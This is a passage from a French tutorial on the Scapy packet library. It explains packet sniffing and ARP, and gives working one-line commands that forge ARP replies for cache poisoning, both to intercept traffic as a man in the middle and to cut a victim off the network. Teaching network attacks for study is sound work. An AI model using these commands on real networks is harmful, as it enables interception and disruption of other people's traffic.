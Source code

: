*Exemple* : prn = lambda x: x.show() va afficher le détail de chaque paquet.

On peut préciser l’interface que l’on veut utiliser avec l’option **iface**.
```
>>> trafic=sniffer(iface=“eth0”)
```
Nous pouvons maintenant lister les paquets reçu (ici uniquement de l’UDP) avec la commande **summary()**.

| **Commande** | **Description** |
| --- | --- |
| trafic[n] | Accès au paquet n |
| trafic[n].show() | Affichage propre du paquet n |
| trafic[n][proto] | Accès uniquement au protocole "proto" du paquet n (exemple : **trafic[0][UDP])** |
| trafic[n].[proto].champs | Accès au champs du protocole "proto" du paquet n (exemple : **trafic[0][IP].dst)** |
| trafic[0].haslayer(proto) | Retourne 1 si le protocole « proto » est présent dans le paquet n, 0 sinon (**exemple: trafic[0].haslayer(TCP)**) |

***Figure 1*** : accès aux paquets

Voici un qui écoute 10 trames réseau :
```
a=sniff(count=10)
a.nsummary()
```

### Le protocole ARP (https://www.ietf.org/rfc/rfc903.txt) et scapy
ARP (Adresse Resolution Protocole) est un protocole qui sert de liaison entre la couche 2 et 3 du modèle OSI, c’est à dire qu’il permet d’associer une Adresse MAC avec une Adresse IP.

De cette manière, le routage des paquets peut se dérouler correctement sur le réseau. Cette association MAC/IP est stockée dans le cache ARP. Le protocole ARP peut envoyer une requête afin de connaitre à qui appartient une adresse IP (Opération who-has) et une réponse qui permet d’identifier l’adresse IP avec l’adresse MAC (Opération is-at). Cependant, ARP peut faire le contraire en utilisant RARP (Reverse ARP).

L’ARP Cache Poisoning est une attaque extrêmement simple et rapide à mettre en place, car il s’agit juste de modifier l’adresse MAC d’une entrée dans le cache ARP par une autre.

Pour se faire, il suffit simplement de forger un paquet ARP de type « is-at » et de l’envoyer, avec scapy, cette attaque peut se faire en une seule ligne.
```
>>> target = "192.168.0.200"
>>> victim = "192.168.0.48"
>>> sendp(Ether(dst=getmacbyip(victim),src="votre\_adresse\_mac")/ARP(op="is-at",hwsrc="votre\_adresse\_mac", hwdst=getmacbyip(victim), psrc=target, pdst=victim))
```

Utilisé avec l’adresse MAC de votre machine, vous serez placés en **Man In the Middle**, c’est à dire que votre machine sera entre les deux machines, ce qui vous donne un contrôle sur leurs trafics respectifs (enfin, en théorie … 😊).

Nous pouvons de la même manière isoler une machine du réseau en lui disant que l’IP du routeur est associé avec l’adresse MAC 00:00:00:00:00:00 (ou autre, tant qu’elle est inexistante).
```
>>> target = "192.168.0.200"
>>> victim = "192.168.0.48"
>>> sendp(Ether(dst=getmacbyip(victim),src="ff:ff:ff:ff:ff:ff")/ARP(op="is-at",hwsrc="ff:ff:ff:ff:ff:ff", hwdst=getmacbyip(victim), psrc=target, pdst=victim))
```
## Et en python ? Programmons un peu …
### Envoyer et recevoir des paquets

